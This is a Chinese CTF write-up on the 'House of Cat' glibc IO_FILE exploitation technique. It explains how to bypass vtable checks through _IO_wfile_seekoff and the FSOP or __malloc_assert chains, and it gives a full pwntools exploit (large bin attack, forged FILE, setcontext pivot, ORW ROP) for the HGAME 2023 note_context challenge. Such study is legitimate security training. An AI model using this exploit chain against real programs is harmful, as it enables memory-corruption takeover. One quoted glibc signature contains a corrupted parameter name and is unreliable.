# House of Cat：绕过 glibc 2.24 后 Vtable 检查的 IO_FILE 利用技术详解-先知社区

> **来源**: https://xz.aliyun.com/news/18270  
> **文章ID**: 18270

---

# house of cat

## 概述：

1. house of cat主要的摸底还是覆盖vtable指针，因为在glibc-2.24之后堆vtable新增了检查，导致直接覆​盖vtable为system行不通，所以需要 **利用\_IO\_jump\_t中的函数** （这样能绕过vtable的判断）来挟持程序的控制流。

vtable的检查可以看这篇文章 ：[glibc 2.24 下 IO\_FILE 的利用](https://blog.csdn.net/yjh_fnu_ltn/article/details/141431894?spm=1001.2014.3001.5502) ，house of cat可以通过伪造IO\_FILE走**FOSP**或者**\_\_malloc\_assert** 来完成攻击。

## \_IO\_wfile\_jumps

1. 首先利用的函数就是\_IO\_wfile\_jumps中的 \_IO\_wfile\_seekoff函数，这里看一下 \_IO\_wfile\_jumps的结构：

我们关注的**\_IO\_wfile\_seekoff**在第10个位置，偏移为0x48。这里额外关注一下第二个函数\_IO\_wfile\_overflow，后面会调用。



\_IO\_wfile\_seekoff函数的源码如下，截取要利用的关键部位：

```
off64_t
_IO_wfile_seekoff(FILE *fp, off64_t offset, int dira'sa's's'assddawsda, int mode)
{
    off64_t result;
    off64_t delta, new_offset;
    long int count;

    /* Short-circuit into a separate function.  We don't want to mix any
     functionality and we don't want to touch anything inside the FILE
     object. */
    if (mode == 0) // 要绕过这个判断 mode 不能为 0
        return do_ftell_wide(fp);

    /* POSIX.1 8.2.3.7 says that after a call the fflush() the file
     offset of the underlying file must be exact.  */
    int must_be_exact = ((fp->_wide_data->_IO_read_base == fp->_wide_data->_IO_read_end) && (fp->_wide_data->_IO_write_base == fp->_wide_data->_IO_write_ptr));

    bool was_writing = ((fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base) || _IO_in_put_mode(fp)); // 给was_writing赋值

    /* Flush unwritten characters.
     (This may do an unneeded write if we seek within the buffer.
     But to be able to switch to reading, we would need to set
     egptr to pptr.  That can't be done in the current design,
     which assumes file_ptr() is eGptr.  Anyway, since we probably
     end up flushing when we close(), it doesn't make much difference.)
     FIXME: simulate mem-mapped files. */
    if (was_writing && _IO_switch_to_wget_mode(fp)) // was_writing为1时会调用_IO_switch_to_wget_mode函数，传入的第一个参数是当前的FILE
        return WEOF;
```

\_IO\_switch\_to\_wget\_mode函数的源码如下：

函数在第一个判断条件成立后会调用\_IO\_WOVERFLOW函数，并传入当前FILE地址。仔细看，这里的判断条件和上上面 \_IO\_wfile\_seekoff的判断条件是一样的。所以伪造IO\_FILE是只用满足该条件即可

```
int _IO_switch_to_wget_mode(FILE *fp)
{
    if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base)
        if ((wint_t)_IO_WOVERFLOW(fp, WEOF) == WEOF)
            return EOF;
    if (_IO_in_backup(fp))
        fp->_wide_data->_IO_read_base = fp->_wide_data->_IO_backup_base;
    else
    {
        fp->_wide_data->_IO_read_base = fp->_wide_data->_IO_buf_base;
        if (fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_read_end)
            fp->_wide_data->_IO_read_end = fp->_wide_data->_IO_write_ptr;
    }
    fp->_wide_data->_IO_read_ptr = fp->_wide_data->_IO_write_ptr;

    fp->_wide_data->_IO_write_base = fp->_wide_data->_IO_write_ptr = fp->_wide_data->_IO_write_end = fp->_wide_data->_IO_read_ptr;

    fp->_flags &= ~_IO_CURRENTLY_PUTTING;
    return 0;
}
```

这里提前放一段 \_IO\_switch\_to\_wget\_mode函数的汇编指令，后面讲一个打IO\_FILE的栈迁移（不用malloc\_hook和free\_hook）：



看一下\_IO\_WOVERFLOW(fp, WEOF)的调用过程：

调用 **fp的\_wide\_data字段** 指向的 结构体**\_ IO\_wide\_data**中的 **\_wide\_vtable字段** 所指向的\_\_overflow函数（在虚表中偏移为 0x18，也就是上面 \_IO\_wfile\_jumps中的第二个函数）。并且再次过程中 使用 \_wide\_vtable时并没有像glibc-2.24中的vtable检查范围，所以这里的 \_wide\_vtable字段的指针时可以被我们随意覆盖的（覆盖成system）



结构体如下：



最后综上，**从\_IO\_wfile\_seekoff函数 要执行到 \_IO\_switch\_to\_wget\_mode函数**，需要绕过的检查：

2. fp->\_wide\_data->\_IO\_write\_ptr > fp->\_wide\_data->\_IO\_write\_base

所以，在伪造IO\_FILE时可以按照下面方法：

* 伪造的IO\_FILE地址 + 0xc0 ==> -1 (fp->\_mode != 0)
* 伪造的IO\_FILE地址 + 0xa0 ==> 任意一个堆地址 chunk\_addr
* chunk\_addr + 0x18 ==> 0x1 (fp->*wide\_data->*IO\_write\_ptr)
* chunk\_addr + 0x20 ==> 0x0 (fp->*wide\_data->*IO\_write\_base)

## 进入\_IO\_wfile\_seekoff

1. 上面只看了\_IO\_wfile\_seekoff函数 要执行到 \_IO\_switch\_to\_wget\_mode函数的情况，如何执行到 \_IO\_wfile\_seekoff函数还没有解决，下面看如何执行到 \_IO\_wfile\_seekoff函数，两种方法：

### FSOP

执行的IO链子：

\_\_GI\_exit --> \_\_run\_exit\_handlers --> \_IO\_cleanup --> \_IO\_wfile\_seekoff --> \_IO\_switch\_to\_wget\_mode

1. 因为\_IO\_wfile\_seekoff函数所在的虚表 \_IO\_wfile\_jumps时存在vtable检查内的，所以利用先前house of pig中，通过调用**exit函数执行到 \_IO\_flush\_all\_lockp**，然后覆盖vtable为 \_IO\_wfile\_jumps + 0x30 ，在 \_IO\_flush\_all\_lockp刷新所有文件时就会调用到 \_IO\_wfile\_seekoff 函数.
2. 简单看一下FSOP的调用链，前提时满足FSOP链的要求。而 \_IO\_wfile\_seekoff调用到 \_IO\_switch\_to\_wget\_mode要满足 mode != 0，所以 mode <0 ，但是 \_IO\_wfile\_seekoff中的mode并不是 fp-> \_mode：



要绕过这个mode == 0的我检查，就要在 \_IO\_flush\_all\_lockp调用 \_IO\_wfile\_seekoff函数时将传入的参数mode设置为0，在挟持vtavle执行 \_IO\_wfile\_seekoff函数时，如果使用**第一个判断条件**

看一下调试的情况（这里用的是glibc-2.31），在调用到 \_IO\_wfile\_seekoff函数之前都没有对rcx进行赋值，所以进入 \_IO\_wfile\_seekoff函数后 参数mode会是0，这种情况下我们不能控制mode参数的值（我继续像上面的函数调试了，发现在 \_IO\_cleanup 函数中将rcx设置为0，一直保持到了 \_IO\_flush\_all\_lockp 函数）。如果利用第一个判断条件，我们是无法通过伪造IO\_FILE来将mode 即 rcx寄存器的值设置为0 ：



如果使用**第二个判断条件** （和IO\_wfile\_seekoff调用IO\_switch\_to\_wget\_mode函数的条件一样），在进入到 IO\_wfile\_seekoff函数之前， 这里对rcx进行了赋值，用的是**(\_IO\_wide\_data\_2+24)即 \_IO\_wide\_data\_2中的 \_IO\_write\_base字段的值**。在这前面的部分都没有对rcx赋值，且在进入\_IO\_flush\_all\_lockp函数是**rcx的值为0**：



满足，fp->\_wide\_data->\_IO\_write\_ptr > fp->\_wide\_data->\_IO\_write\_base 后顺利调用到 \_IO\_switch\_to\_wget\_mode函数，这里传参rdi的值直接给的FILE地址：



再次通过上面的判断条件后，通过从**fp中的\_wide\_data字段** 进入 \_IO\_wide\_data\_2，再通过 **IO\_wide\_data\_2中的 \_wide\_vtable字段** 顺利调用到 \_IO\_wfile\_jumps中偏移为0x18处的函数 \_IO\_wfile\_overflow：



所以，如果伪造FILE，在绕过检查的同时(上面有绕过检查的方法)，再伪造一下**fp中的\_wide\_data字段** 和对应 **IO\_wide\_data\_2** 就能get shell，伪造好后如下（这里演示**栈迁移**的get shell的方法 仍然只使用system("/bin/sh")），要用到setcontext，并且用 **\_IO\_switch\_to\_wget\_mode函数前段部分 用rdi 给rdx赋值**

rdi(fp) ==> rax(\_wide\_vtable) ==> rdx( \_wide\_vtable -> \_IO\_write\_ptr )：



执行到 调用\_IO\_wfile\_seekoff函数之前，**将IO\_wide\_data\_2中的 \_IO\_write\_base字段值给到rcx**：



进入\_IO\_wfile\_seekoff函数，可以看到传入的额参数mode = 1：



这里检查了传入的 mode 是否为0：



成功衔接到\_IO\_switch\_to\_wget\_mode函数：



进入 \_IO\_switch\_to\_wget\_mode 函数，开头的一段直接 rdi(fp) ==> rax( \_wide\_vtable) ==> rdx( \_wide\_vtable -> \_IO\_write\_ptr )，完成 rdi 到 rdx值的转化，后面的call 指令顺利衔接到setcontext + 61：



进入setconbext + 61，对 rsp 赋值完成栈迁移，rcx 赋为ret指令地址入栈，退出时平衡掉栈:



顺利完成栈迁移，成功get shell：



### \_\_malloc\_assert

1. FSOP前面都已经介绍的很熟悉了，这里主要看另外一种能调用到 \_IO\_wfile\_seekoff函数的方法。
2. \_\_malloc\_assert 函数的作用就是在动态内存分配失败时，提供一种处理这种情况的方法。它可能会打印错误信息、触发断言（assert）或执行其他错误处理操作。

\_\_malloc\_assert触发的IO链子：

3. \_int\_malloc --> sysmalloc --> \_\_malloc\_assert --> \_\_fxprintf --> \_\_vfxprintf--> locked\_vfxprintf --> \_\_vfprintf\_internal --> \_IO\_file\_xsputn

经过调试，发现这里要执行到 \_IO\_file\_xsputn 要**将 \_flag要设置为0x8005** （绕过\_\_vfprintf\_internal中的两个检查）：

第一个检查：



第二个检查：



4. 这里覆盖文件中的stderr字段指向堆，然后在堆上伪造 \_IO\_2\_1\_stderr \_ 结构，伪造的结构如下（这里只保证执行到setcontext + 53处）。注意：因为IO链的不同，这里**伪造时和FSOP不同之处在于vtable的覆盖** 要使用 \_IO \_wfile \_jumps+0x10，这样后面+0x38 偏移就能拿到 \_IO\_wfile\_seekoff函数：



在\_\_vfxprintf 函数中，会从stderr中取出伪造的FILE地址（这里原本是 \_IO\_2\_1\_stderr \_的地址）：



在这里绕过一个判断条件，成功调用到 \_\_vfxprintf函数：



后面进入到 \_\_vfwprintf\_internal函数中，通过 \_IO\_vtable\_check判断，成功调用到 \_IO\_wfile\_seekoff函数，并且 \_IO\_wfile\_seekoff中传入的参数mode不为0，可以绕过前面第一个判断：



这里满足第二个判断条件 fp-> \_wide\_data -> \_IO\_write\_ptr > fp-> \_wide\_data-> \_IO\_write\_base，最后调用到 \_IO\_switch\_to\_wget\_mode函数：



进入\_IO\_switch\_to\_wget\_mode函数（这里仍然能完成栈迁移 rdi --> rdx转换，和上面FSOP一样），绕过判断条件 fp-> \_wide\_data-> \_IO\_write\_ptr > fp-> \_wide\_data-> \_IO\_write\_base 后成功衔接到<setcontext+53>：



## 例题：

题目地址：[[HGAME 2023 week3]note\_context | NSSCTF](https://www.nssctf.cn/problem/3519)

### 思路：

1. 只存在一个UAF漏洞，并且申请的size限制在0x500往上，这里就只能打large bin attack，libc的版本附件给的是2.32，所以这里可以打house of cat，利用**FSOP触发**，栈迁移到堆上，基本的流程如下：

泄漏堆地址、libc地址 --> large bin attack 覆盖 \_IO\_list\_all --> 伪造IO\_FILE --> 最后在 \_IO\_flush\_all\_lockp劫持函数，通过 \_wide\_data中的函数指针完成栈迁移到堆上。

### 分析：

1. 4项功能俱全，add函数中设置了size范围大于0x500 小于0x900，delete函数中存在UAF漏洞，并且最后主动调用了exit()函数。同时开了沙箱要绕过，并且保护全开（这里\_\_malloc\_assert触发就不太现实了 stderr的地址都拿不到）：





### 利用：

1. 先泄漏堆地址和libc地址：

```
# 泄漏libc
add(0x510,0)    #0
add(0x530,15)    #15 隔开
add(0x520,1)    #1
add(0x530,15)    #15
edit(15,b"./flag\x00\x00")

free(1)
add(0x530,15)    #15 将chunk1放入large bin
show(1)
addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base = addr - 0x1E4030
success("libc_addr==>"+hex(libc_base))
debug()
pause()
#计算__free_hook和system地址
setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
system_addr        = libc_base + libc.sym["system"]
IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
# IO_wfile_jumps_addr = libc_base + 0x1E4F80

success("system_addr==>"        + hex(system_addr))
success("setcontext_addr==>"    + hex(setcontext_addr))
success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
success("IO_wfile_jumps_addr==>"   + hex(IO_wfile_jumps_addr))

open_addr = libc.sym['open']+libc_base
read_addr = libc.sym['read']+libc_base
write_addr = libc.sym['write']+libc_base

pop_rdi_ret=libc_base + 0x000000000002858f
pop_rdx_r12_ret=libc_base + 0x0000000000114161
pop_rax_ret=libc_base + 0x0000000000045580
pop_rsi_ret=libc_base + 0x000000000002ac3f
ret= libc_base + 0x0000000000026699


# 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
free(0)
edit(1,p64(addr)*2 + p64(0) + p64(IO_list_all_addr-0x20))
add(0x530,15)    #15 将chunk0放入large bin 触发large bin attack

show(1)
p.recv()
heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x290
success("heap_addr==>"+hex(heap_addr))
```

这里由于只有large bin，没有chunk进入fastbin和tcache，所以可以在完成large bin attack的同时，利用large bin fd指针上的值泄漏堆地址。

这里泄漏libc地址，同时可以看到fd指针上是无法得到堆地址的：



这里完成一次large bin attack攻击 ，同时泄漏堆地址：



2. 后面在堆上伪造IO\_FILE 同时 写好ORW ，利用\_IO\_switch\_to\_wget\_mode完成栈迁移（堆上布置好rsp和rcx寄存器的值），这里将IO\_FILE、ORW、 \_wide\_data、寄存器传参、直接全部在一个堆上伪造（这里堆的各种偏移需要调试计算好）：

```
# ORW
syscall = read_addr+16
flag = heap_addr+0x1230     # 前面堆上写入的b"./flag\x00\x00"地址

# open(0,flag)
orw =p64(pop_rdi_ret)+p64(flag)
orw+=p64(pop_rsi_ret)+p64(0)
orw+=p64(pop_rax_ret)+p64(2)
orw+=p64(syscall)
# orw =p64(pop_rdi_ret)+p64(flag)
# orw+=p64(pop_rsi_ret)+p64(0)
# orw+=p64(open_addr)

# read(3,heap+0x1010,0x30) 
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(read_addr)     

# write(1,heap+0x1010,0x30)
orw+=p64(pop_rdi_ret)+p64(1)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)#存放地址0x50
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(write_addr)


# debug()
# ========== 伪造IO_FILE ==========
file = p64(0) + p64(0)              #_IO_read_end    _IO_read_base
file+= p64(0) + p64(1) + p64(0)     #_IO_write_base  _IO_write_ptr _IO_write_end
file+= p64(0) + p64(0)              #_IO_buf_base    _IO_buf_end
file+= p64(0) * 11                  #_IO_save_base ~ _codecvt
file+= p64(heap_addr + 0x370)        #_wide_data
file+= p64(0) *3                    #_freeres_list ~ __pad5
file+= p64(1) + p64(0)*2            # _mode  _unused2 (2dword)

file+=p64(IO_wfile_jumps_addr + 0x30)   #vtable

#_IO_wide_data_2
_wide_vtable = heap_addr + 0x380
rdx = heap_addr + 0x380            # rdi --> rdx 转换
stack_change = heap_addr + 0x460

file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
file+= p64(1) + p64(rdx) + p64(setcontext_addr)      #_IO_write_base _IO_write_ptr _IO_write_end
file+= p64(0) * 16 + p64(stack_change) + p64(ret)
file+= p64(0) * 4
file+= p64(_wide_vtable)          #_wide_vtable
file+= p64(0)   #填充
# stack change
file+= orw

edit(0,file)
p.sendline(b"5")
p.interactive()
```

看一下伪造好后的堆：





下面试栈迁移的过程：

绕过检查 进入 \_IO\_switch\_to\_wget\_mode



在 函数中完成 rdi --> rdx 值的转换，并成功衔接到 setcontext+61：



进入setcontext + 61，开头完成栈迁移：



push rcx 入栈 ret指令地址：



最后衔接到堆上布置好的ORW：



最后读取到flag：



3. 完成EXP，这里就只打了本地，因为远程泄漏出来的libc地址根本不对，应该是给的libc版本和远程的不符合：

```
from pwn import *
from LibcSearcher import *
context(os='linux', arch='amd64', log_level='debug')

def debug():
    gdb.attach(p)

# p = remote("node5.anna.nssctf.cn",28430)
p = process("./vuln")
# libc = ELF('./lib/libc_2.31-0ubuntu9.2_amd64.so')

libc = ELF('/home/kali/Desktop/glibc-all-in-one/libs/2.32-0ubuntu3.2_amd64/libc-2.32.so')
# elf = ELF("./pwn")

def add(size,index):
    p.sendlineafter(b'>','1')
    p.sendlineafter(b':',str(index).encode())
    p.sendlineafter(b':',str(size).encode())


def edit(index, content):
    p.sendlineafter(b'>','3')
    p.sendlineafter(b':',str(index).encode())
    p.sendafter(b':',content)

def show(index):
    p.sendlineafter(b'>',b'4')
    p.sendlineafter(b':',str(index).encode())

def free(index):
    p.sendlineafter(b'>','2')
    p.sendlineafter(b':',str(index).encode())

# 泄漏libc
add(0x510,0)    #0
add(0x530,15)    #15 隔开
add(0x520,1)    #1
add(0x530,15)    #15
edit(15,b"./flag\x00\x00")

free(1)
add(0x530,15)    #15 将chunk1放入large bin
show(1)

addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
libc_base = addr - 0x1E4030
success("libc_addr==>"+hex(libc_base))

#计算__free_hook和system地址
setcontext_addr    = libc_base + libc.sym["setcontext"] + 61
system_addr        = libc_base + libc.sym["system"]
IO_2_1_stdout_addr = libc_base + libc.sym["_IO_2_1_stdout_"]
IO_list_all_addr   = libc_base + libc.sym["_IO_list_all"]
IO_wfile_jumps_addr = libc_base + libc.sym["_IO_wfile_jumps"]
# IO_wfile_jumps_addr = libc_base + 0x1E4F80

success("system_addr==>"        + hex(system_addr))
success("setcontext_addr==>"    + hex(setcontext_addr))
success("IO_2_1_stdout_addr==>" + hex(IO_2_1_stdout_addr))
success("IO_list_all_addr==>"   + hex(IO_list_all_addr))
success("IO_wfile_jumps_addr==>"   + hex(IO_wfile_jumps_addr))

open_addr = libc.sym['open']+libc_base
read_addr = libc.sym['read']+libc_base
write_addr = libc.sym['write']+libc_base

pop_rdi_ret=libc_base + 0x000000000002858f
pop_rdx_r12_ret=libc_base + 0x0000000000114161
pop_rax_ret=libc_base + 0x0000000000045580
pop_rsi_ret=libc_base + 0x000000000002ac3f
ret= libc_base + 0x0000000000026699

# 泄漏堆地址 同时完成large bin attack 攻击 覆盖掉IO_list_all
free(0)
edit(1,p64(addr)*2 + p64(0) + p64(IO_list_all_addr-0x20))
add(0x530,15)    #15 将chunk0放入large bin 触发large bin attack

show(1)
p.recv()
heap_addr = u64(p.recv(6).ljust(8,b'\x00'))-0x290
success("heap_addr==>"+hex(heap_addr))

# ORW
syscall = read_addr+16
flag = heap_addr+0x1230

# open(0,flag)
orw =p64(pop_rdi_ret)+p64(flag)
orw+=p64(pop_rsi_ret)+p64(0)
orw+=p64(pop_rax_ret)+p64(2)
orw+=p64(syscall)
# orw =p64(pop_rdi_ret)+p64(flag)
# orw+=p64(pop_rsi_ret)+p64(0)
# orw+=p64(open_addr)

# read(3,heap+0x1010,0x30) 
orw+=p64(pop_rdi_ret)+p64(3)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(read_addr)     

# write(1,heap+0x1010,0x30)
orw+=p64(pop_rdi_ret)+p64(1)
orw+=p64(pop_rsi_ret)+p64(heap_addr+0x1010)#存放地址0x50
orw+=p64(pop_rdx_r12_ret)+p64(0x30)+p64(0)
orw+=p64(write_addr)

# ========== 伪造IO_FILE ==========
file = p64(0) + p64(0)              #_IO_read_end    _IO_read_base
file+= p64(0) + p64(1) + p64(0)     #_IO_write_base  _IO_write_ptr _IO_write_end
file+= p64(0) + p64(0)              #_IO_buf_base    _IO_buf_end
file+= p64(0) * 11                  #_IO_save_base ~ _codecvt
file+= p64(heap_addr + 0x370)        #_wide_data
file+= p64(0) *3                    #_freeres_list ~ __pad5
file+= p64(1) + p64(0)*2            # _mode  _unused2 (2dword)

file+=p64(IO_wfile_jumps_addr + 0x30)   #vtable

#_wide_data
_wide_vtable = heap_addr + 0x380
rdx = heap_addr + 0x380
stack_change = heap_addr + 0x460

file+= p64(0)*3                                      #_IO_read_ptr   _IO_read_end  _IO_read_base
file+= p64(1) + p64(rdx) + p64(setcontext_addr)      #_IO_write_base _IO_write_ptr _IO_write_end
file+= p64(0) * 16 + p64(stack_change) + p64(ret)
file+= p64(0) * 4
file+= p64(_wide_vtable)          #_wide_vtable
file+= p64(0)   #填充
# stack change
file+= orw

edit(0,file)
p.sendline(b"5")
p.interactive()
```
